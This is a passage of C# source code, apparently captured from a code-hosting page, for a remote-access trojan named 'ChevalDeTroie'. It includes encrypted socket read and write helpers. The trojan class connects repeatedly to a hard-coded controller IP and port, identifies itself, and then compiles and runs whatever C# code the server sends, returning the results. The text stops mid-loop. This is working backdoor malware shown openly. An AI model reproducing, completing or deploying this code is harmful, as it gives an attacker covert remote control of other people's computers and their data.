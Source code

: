 			if (bytesRead == 0) {
				return result;
			}
			Array.Resize<byte>(ref result, result.Length + bytesRead);
			Array.Copy(message, 0, result, result.Length - bytesRead, bytesRead);
			if(encoder.GetString(result).EndsWith(EOF)) {
				break;
			}
		}
		int eofLength = encoder.GetBytes(EOF).Length;
		byte[] truncatedResult = new byte[result.Length - eofLength];
		Array.Copy(result, 0, truncatedResult, 0, truncatedResult.Length);
		return Decrypt(PASS, truncatedResult);
	}
	public static byte[] concatenateBytes(byte[] one, byte[] two) {
		byte[] result = new byte[one.Length + two.Length];
		Array.Copy(one, 0, result, 0, one.Length);
		Array.Copy(two, 0, result, one.Length, two.Length);
		return result;
	}
	public static void write(NetworkStream clientStream, Encoding encoder, byte[] buffer) {
		byte[] encryptedBuffer = concatenateBytes(Encrypt(PASS, buffer), encoder.GetBytes(EOF));
		clientStream.Write(encryptedBuffer, 0 , encryptedBuffer.Length);
		clientStream.Flush();
	}
	public static string readString(NetworkStream clientStream, Encoding encoder) {
		return encoder.GetString(read(clientStream, encoder));
	}
	public static void writeString(NetworkStream clientStream, Encoding encoder, string data) {
		write(clientStream, encoder, encoder.GetBytes(data));
	}
}

ChevalDeTroie.cs :

...
private const int RETRY_DELAY = 5000;
public static string ID = "azerty";
public ChevalDeTroie(){
	IPEndPoint serverEndPoint = new IPEndPoint(IPAddress.Parse(IP), PORT);
	while(true) {
		try {
			TcpClient client = new TcpClient();
			client.Connect(serverEndPoint);
			NetworkStream clientStream = client.GetStream();
			ASCIIEncoding encoder = new ASCIIEncoding();
			Communication.writeString(clientStream, encoder, ID);
			while(true) {
				string command = Communication.readString(clientStream, encoder);
				if(command == "exit") {
					Communication.writeString(clientStream, encoder, command);
					break;
				}
				Evaluator eval = new Evaluator("tosend = execute()", Evaluator.EvaluationType.SingleLineReturn, Evaluator.Language.CSharp);
				eval.AddReference("System.dll");
				eval.AddVariable("tosend", new byte[0]);
				eval.AddCustomMethod(command);
				Evaluator.EvaluationResult result = eval.Eval();
				if (result.ThrewException) {
					Communication.writeString(clientStream, encoder, result.Exception.Message);
				} else {
					Communication.write(clientStream, encoder, result.Variables["tosend"].VariableValue as byte[]);
				}